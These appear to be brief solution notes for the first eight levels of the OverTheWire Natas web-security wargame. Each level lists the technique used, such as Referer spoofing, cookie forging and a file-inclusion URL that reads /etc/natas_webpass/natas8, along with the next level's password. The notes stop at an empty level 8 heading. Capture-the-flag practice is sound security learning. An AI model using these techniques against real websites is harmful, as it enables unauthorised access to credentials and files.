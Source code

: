 # 0

In the comments

passowrd: gtVrDuiDfck831PqWsLEZy5gyDz1clto

# 1
In the comments

password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

# 2
http://natas2.natas.labs.overthewire.org/files/users.txt

password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

# 3
http://natas3.natas.labs.overthewire.org/robots.txt
```
User-agent: *
Disallow: /s3cr3t/
```
password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

# 4
Add `Referer` header

Referer: http://natas5.natas.labs.overthewire.org/

password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

# 5
document.cookie = "loggedin=1"

password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

# 6
`http://natas6.natas.labs.overthewire.org/includes/secret.inc`

```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```
password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

# 7
`http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

# 8


